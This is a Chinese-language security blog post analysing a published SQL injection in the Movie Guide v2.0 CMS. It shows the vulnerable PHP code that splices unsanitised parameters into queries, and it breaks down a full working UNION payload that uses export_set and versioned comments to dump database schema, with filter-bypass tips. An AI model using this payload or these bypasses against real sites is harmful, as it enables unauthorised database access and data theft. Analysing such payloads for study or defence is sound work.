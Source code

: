 ```yaml
---
title: MovieGuide v2.0 SQLi
tags: 
 - cms
categories: codereview
date: 2018-02-03 13:37:35
---
```


## 0x00
Detail: [Movie Guide v2.0 SQL Injection](https://www.exploit-db.com/exploits/43346/)

<!-- more -->

## 0x01
这是一个比较粗糙的开源cms，总体来说并没有对输入输出做安全处理，从PoC入手，选一个还原一下漏洞形成过程。
#### PoC：index.php?md=[SQL]
定位一下md参数
layout.php为该cms的主要入口处理,下述的变量均没有通过安全处理，直接SQL语句，从而都可以用于数据库注入。
```php
//Get the passed variables.
$mterm = filter_input(INPUT_POST, 'tterm');
$cterm = filter_input(INPUT_POST, 'gterm');
$lterm = filter_input(INPUT_GET, 'gterm');
$yterm = filter_input(INPUT_GET, 'year');
$md = filter_input(INPUT_GET, 'md');
$actorname = filter_input(INPUT_GET, 'actor');
$directorname = filter_input(INPUT_GET, 'director');
```
直接拼接入SQL语句
```
$sql = "SELECT * FROM `Movie_List` WHERE `Main_Dir` LIKE '" . $md . "' ORDER BY `Movie_Title` ASC Limit $start, $perpage";
```
这里比较有意思的是它的PoC，以前没有见过类似的:b，PoC中使用了export_set函数

#### `EXPORT_SET(bits,on,off[,separator[,number_of_bits]])`
`Returns a string such that for every bit set in the value bits, you get an on string and for every bit not set in the value, you get an off string. Bits in bits are examined from right to left (from low-order to high-order bits). Strings are added to the result from left to right, separated by the separator string (the default being the comma character ,). The number of bits examined is given by number_of_bits, which has a default of 64 if not specified. number_of_bits is silently clipped to 64 if larger than 64. It is treated as an unsigned integer, so a value of −1 is effectively the same as 64.`

分解一下PoC
```
/*!02222UNION*/
(
    /*!02222SELECT*/ 0x253238253331253239,0x253238253332253239,
        (
            /*!02222Select*/
                export_set(5,@a:=0,
                (/*!02222select*/ count(*)/*!02222from*/(information_schema.columns)where@a:=// data->@a
                    export_set(5,
                        export_set(5,@a,/*!02222table_name*/,'<li>',2)//dump table_name [0<li>table_name]
                    ,/*!02222column_name*/,'\n:',2)//dump column_name [0<li>table_name\n:columns_name]
                )
            ,@a,2)//set @a split char
        )
    ,0x253238253334253239,0x253238253335253239,0x253238253336253239,0x253238253337253239,0x253238253338253239,0x253238253339253239,0x253238253331253330253239,0x253238253331253331253239,0x253238253331253332253239
    )-- -
```

这里主要利用的是export_set函数的no，off位置来dump数据。

- 首先通过@a:=0，定义变量a为0（可能跟mysql版本有关系，5.7.x下的mysql无法用@:=0来定义）
- 最里面的export_set，将table_name dump出来（结果为`0<li>table_name`）
- 接下来的一个export_set，将columns_name dump出来(结果为`0<li>table_name\n:columns_name`)
- `select count(*) from (information_schema.columns)where@a:=export_set(5,export_set(5,@a,table_name,'<li>',2),column_name,'\n:',2)`将上述的数据赋值给变量a
- 最后用最后一个export_set，用@a做分隔符，将数据dump出来

## 0x02 总结
该cms的注入漏洞很常规，主要是学习分析了该PoC，能在未来注入绕过的地方应用。
1. mysql的自定义变量@的应用，可以在一定程度上消除空格，以及正则`\bwhere\b`的绕过
2. /!02222select*/这个方法也是经常听说，也在这里用到了，一个很好的例子。
3. export_set的应用，比较重要的应用，在某些情况下可用于绕过


